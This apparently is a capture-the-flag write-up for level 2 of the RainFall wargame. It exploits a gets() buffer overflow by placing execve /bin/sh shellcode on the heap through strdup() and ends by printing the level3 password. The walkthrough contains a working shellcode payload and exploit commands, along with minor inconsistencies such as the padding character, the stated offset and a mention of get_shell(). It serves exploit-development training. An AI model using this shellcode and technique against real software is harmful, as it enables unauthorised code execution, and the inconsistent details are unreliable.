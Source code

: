 # Level2

## Objective

The goal of Level 2 is to escalate from `level2` to `level3` by exploiting a buffer overflow vulnerability in the `level2` binary. By the end, you should be able to retrieve the password for `level3`.

---

## Step 1: Examine the Binary

After switching to `level2`:

```bash
level2@RainFall:~$ ls
level2
```

Running the binary with some test input:

```bash
level2@RainFall:~$ ./level2
bjr
level2@RainFall:~$ ./level2
blablibloublu
level2@RainFall:~$
```

> **Observation**: The program take an input and quit, suggesting a **buffer overflow** ??.

---

## Step 2: Investigate the Code Behavior

By disassembling the main we find a function called `p()`, using again the disass cmd we find that the function uses `gets()` to read user input, which means there's a overflow vulnerability.

```bash
Dump of assembler code for function main:
    0x08048545 <+6>:     call   0x80484d4 <p>
Dump of assembler code for function p:
    0x080484ed <+25>:    call   0x80483c0 <gets@plt>
```

But here's the problem, the stack isn't usable this time to overflow.
<+39> - <+44> : Execute a logical AND on eax then compare it to "0xb0000000". 
This check is made to be sure we don't overwrite the return address to an address on the stack.

```bash
Dump of assembler code for function p:
   0x080484fb <+39>:    and    eax,0xb0000000
   0x08048500 <+44>:    cmp    eax,0xb0000000
```

The point is to use a different way to override... Maybe the HEAP ?
The Heap overflow exists and needs a malloc to be executed. We're lucky we found with ltrace a `strdup()` using a malloc.
Everything given to the `strdup()` is stored thanks to the malloc directly to the heap. The whole point here is to give `strdup()` a shellcode to execute with the syscall 
execve directly inside !

---

## Step 3: Find the Offset

We need to determine at which point our input overwrites the saved return address.

### 3.1 Using a Pattern

```bash
level2@RainFall:~$ gdb ./level2
(gdb) run $(python -c '"Aa0Aa1Aa2..."')
```

When the program crashes, we check the value of `EIP`:

```bash
(gdb) info registers eip
eip            0x37634136
```

Now we find the exact offset:

in ASCII translate to 0x36 0x41 0x63 0x37 meaning 6Ac7 here.

> The return address is overwritten after **80 bytes**.

---

## Step 4: So what's the expected input?

To exploit this binary, we provide three parts in our input:

1. **Shellcode** – a small sequence of instructions that executes `/bin/sh`.
2. **Padding** – filler bytes (`"A" * 59` here) to reach the saved return address on the stack.
3. **Return address** – overwritten with `0x0804a008`, which points to the buffer where our shellcode is stored.

When the function returns, execution jumps into our injected shellcode, giving us a shell.

```bash
level2@RainFall:~$ python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "Q" * 59 + "\x08\xa0\x04\x08"' > /tmp/exploit
level2@RainFall:~$ cat /tmp/exploit - | ./level2
j
 XRh//shh/bin1̀QQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQQ
whoami
level3
cat /home/user/level3/.pass  
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

---

We successfully executed `get_shell()` and obtained a shell as `level3`.

---

**End of Level 2**





